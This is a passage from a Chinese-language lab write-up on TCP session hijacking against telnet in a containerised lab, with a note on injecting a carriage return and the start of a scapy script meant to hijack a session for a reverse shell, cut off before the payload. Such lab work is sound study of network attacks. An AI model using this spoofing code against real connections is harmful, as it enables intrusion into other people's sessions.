 

当然，最后要加一个0d00，代表着\r\n，要输入回车执行命令。成功执行的截图如下所示。



![image-20230422155648303](pic\image-20230422155648303.png)

具体的报文见 `\pcapng\TCP_hijack.pcapng`



#### 2.3.2 使用scapy实现

`sourcecode\hijacking_manual.py`	本质上和netwox 实现一样，这里不再进行实验



自动实现劫持反弹shell

`sourcecode\hijacking_auto.py`

~~~python
#!/usr/bin/python3
from scapy.all import *

user="172.17.0.2"
server="172.17.0.3"
attacker="172.17.0.4"

SRC=user
DST=server

sport=55500
PORT = 23


def spoof(pkt):
    old_ip  = pkt[IP]
    old_tcp = pkt[TCP]
    if(old_tcp.flags!="A"):
        return
    #############################################
    ip  =  IP( src   = old_ip.src,
               dst   = old_ip.dst
             )
    tcp = TCP( sport = old_tcp.sport,
~~~